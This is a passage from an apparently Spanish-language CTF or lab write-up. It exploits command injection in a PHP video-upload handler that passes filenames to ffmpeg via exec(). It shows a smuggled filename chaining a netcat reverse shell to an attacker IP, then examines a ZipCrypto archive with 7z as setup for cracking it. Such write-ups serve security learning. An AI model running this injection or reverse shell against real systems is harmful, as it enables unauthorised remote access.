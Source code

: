 ```
}
?>
```

Como vemos primero mira si es una petición `POST`, en el caso de que sí lo sea continua y define unas variables. Vemos que también mide el tamaño, por lo que si es muy grande dará error.

Ahora bien, si bajamos lo suficiente veremos lo siguiente:

```
exec("ffmpeg -i upload_videos/$filename converted_videos/$filename_without_ext.mp4");
```

Como vemos está utilizando la función `exec` para ejecutar un comando en la propia consola. Vemos que está utilizando `FFMPeg` y que le pasa el archivo `input`, y el `output` es el nombre del archivo sin extensión. Como el nombre del archivo está utilizando `;` podemos concatenar comandos. La instrucción final quedaría así:

```
ffmpeg -i upload_videos/shell.avi;nc -c bash 192.168.1.104 4444;shell.avi converted_videos/shell.mp4
```

Bien! Ya tenemos una Shell como `www-data`! Ya podemos irnos a la carpeta mencionada con anterioridad y descargarnos el `ZIP`.

### Shell
Bien, ya tenemos el `ZIP` en nuestra máquina, pero si lo intentamos descomprimir veremos que nos pide una contraseña, por desgracia no es la misma que habíamos encontrado. Gracias a `7z` podemos ver datos de los archivos: tamaño, comentarios, método, etcétera.

- `7z l -slt mydata_archive.zip `

```Ruby
[...]
Path = 404.html
Folder = -
Size = 919
Packed Size = 931
Modified = 2022-09-28 02:09:09
Created = 2022-10-01 02:55:11
Accessed = 2022-10-01 02:54:27
Attributes = _ -rw-r--r--
Encrypted = +
Comment = 
CRC = 6F47B605
Method = "ZipCrypto Store"
Host OS = Unix
Version = 20
Volume Index = 0
[...]
```

Vemos un fichero llamado `404.html`, dicho fichero está en la máquina víctima y podemos verlo en la propia web, por lo que nos creamos un archivo llamado `plain_text` (en mi caso) y meteremos una string que sepamos que existe, en mi caso utilizé: `<!DOCTYPE html>`.
